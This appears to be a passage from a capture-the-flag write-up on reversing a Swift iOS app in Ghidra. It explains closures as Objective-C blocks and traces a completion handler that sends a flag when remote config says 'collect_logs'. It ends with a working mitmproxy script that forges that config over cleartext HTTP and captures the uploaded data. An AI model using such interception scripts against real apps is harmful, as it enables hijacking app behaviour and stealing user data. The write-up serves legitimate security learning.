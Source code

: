 But **what is a closure**?

A closure in **Swift** is an **anonymous function created in place** (e.g., the `URLSession` completion handler).

At the *binary level* (Mach-O), this closure *is not a public exported function like those in an API*; it is a block (Objective-C block) with:

- A *stack/heap structure* (containing a pointer to the "*invoke*" function, descriptor, captures, etc.).

- A pointer to the **routine that executes the closure body**.

The name of the closure, is "synthetic" (*invented by Ghidra when reconstructing the stream*); it *does not appear in the binary's export table*.

Even *if they're not exported*, Ghidra **lists them as internal functions** (local symbols). That's why *you won't see them in Exports, but you will see them in Functions*.

It's **code that you pass to an AP**I (e.g., `URLSession`) to **be executed when a result is received (`data/response/error`)**. It captures **environment variables** (e.g., the *destination URL*) and *decides what to do with the content*.

So, let's *understand THIS closure*:

1. **Decode JSON** with `NSJSONSerialization.JSONObjectWithData(...)`.

2. **Bridge** → **Any** → `[String:String] (_swift_dynamicCast` to `String:String`).

3. Read **mode** and **compare** with "`collect_logs`".

4. If **it's not `collect_logs`** → exit.

5. If **it's `collect_logs`**, **take `target_url` and call `BackSync::sendFlag(target_url)`**.

### Solution
Let's create a **mitimproxy** script that will trigger the `sendFlag()` function!
```python
from mitmproxy import http, ctx

SUFFIX = "deletedoldstagingsite.com"  # target host suffix

def request(flow: http.HTTPFlow):
    # act only on cleartext HTTP to matching hosts
    if flow.request.scheme == "http" and flow.request.host.endswith(SUFFIX):

        # intercept GET /remoteConfig: return crafted JSON (no upstream)
        if flow.request.path == "/remoteConfig" and flow.request.method.upper() == "GET":
            target = f"http://{flow.request.host}/collect"
            body = ('{"mode":"collect_logs","target_url":"%s"}' % target).encode()
            flow.response = http.Response.make(200, body, {"Content-Type": "application/json"})
            ctx.log.info(f"[RC] {body.decode()}")
            return

        # intercept POST /collect: log body and ACK
        if flow.request.path == "/collect" and flow.request.method.upper() == "POST":
            ctx.log.info(f"[FLAG] {flow.request.get_text()}")
            flow.response = http.Response.make(200, b"ok\n", {"Content-Type": "text/plain"})
            return
```
